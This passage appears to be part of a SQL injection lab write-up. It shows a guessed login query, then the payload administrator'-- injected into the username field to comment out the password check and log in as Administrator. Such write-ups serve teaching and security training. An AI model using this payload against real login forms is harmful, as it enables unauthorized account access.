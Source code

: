 What the back-end query might look like:
```SQL
SELECT cookies,someOtherData FROM users WHERE username = '______' AND password = '______'
```

3. We'll now inject the username parameter with the payload `administrator'--`.
![image](./Attachments/SQL-Lab2-3.png)

This payload will change the query to:
```SQL
SELECT cookies FROM users WHERE username = 'administrator'-- AND password = 'PasswordEntered'
```

The password will be commented and it will bypass the login.

4. And we're in as Administrator.
![image](./Attachments/SQL-Lab2-4.png)
